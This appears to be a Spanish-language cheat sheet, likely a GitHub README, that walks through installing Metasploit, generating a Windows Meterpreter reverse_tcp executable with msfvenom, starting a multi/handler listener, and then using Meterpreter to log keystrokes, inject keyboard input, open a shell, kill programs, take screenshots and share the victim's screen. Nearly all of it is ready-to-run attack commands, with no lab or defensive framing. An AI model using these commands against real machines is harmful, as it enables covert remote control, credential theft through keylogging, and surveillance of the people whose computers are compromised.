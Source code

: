 ## Instalación Metasploit
``` bash
sudo su
apt-get update && apt-get install metasploit-framework
msfconsole
```

## Crear payload
``` bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows -f exe LHOST=<LINUX-IP> LPORT=4444 -o ~/payload.exe
```

## Iniciar exploit
``` bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <LINUX-IP>
set LPORT 4444
exploit
```

## Comandos
### Keylogger
``` bash
# Iniciar logger
keyscan_start

# Obtener teclas almacenadas
keyscan_dump

# Detener logger
keyscan_stop
```

### Enviar eventos de teclado
``` bash
# Enviar cadena
keyboard_send google.com

# Enviar tecla
keyevent 13
```

### Acceder a CMD
``` bash
# Acceder a la shell
shell

# Iniciar un programa
start msedge.exe

# Cerrar un programa
TASKKILL /F /IM msedge.exe
```

### Acceder a la pantalla
``` bash
# Tomar screenshot
screenshot

# Compartir pantalla
screenshare
```

